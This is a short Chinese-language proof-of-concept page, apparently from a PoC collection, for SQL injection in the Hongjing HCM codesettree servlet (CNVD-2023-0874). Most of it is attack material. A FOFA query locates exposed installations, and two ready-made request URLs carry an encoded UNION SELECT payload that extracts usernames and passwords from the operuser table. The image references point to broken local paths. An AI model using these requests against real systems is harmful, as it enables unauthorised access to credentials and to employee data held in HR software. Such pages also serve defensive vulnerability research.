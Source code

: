 # 宏景 HCM codesettree SQL注入漏洞 CNVD-2023-0874

## 漏洞描述

宏景 HCM codesettree 接口存在SQL注入漏洞，攻击者通过漏洞可以获取到登陆系统的账号密码和数据库信息

## 漏洞影响

宏景 HCM

## FOFA

```
app="HJSOFT-HCM"
```

## 漏洞复现

登陆页面

![image-20230704113309837](D:\TMP_FILE\awesome-poc\webapp\images\image-20230704113309837.png)

验证POC

```
/servlet/codesettree?flag=c&status=1&codesetid=1&parentid=-1&categories=~31~27~20union~20all~20select~20~27~31~27~2cusername~20from~20operuser~20~2d~2d
/servlet/codesettree?flag=c&status=1&codesetid=1&parentid=-1&categories=~31~27~20union~20all~20select~20~27~31~27~2cpassword~20from~20operuser~20~2d~2d
```

![image-20230704113329354](D:\TMP_FILE\awesome-poc\webapp\images\image-20230704113329354.png)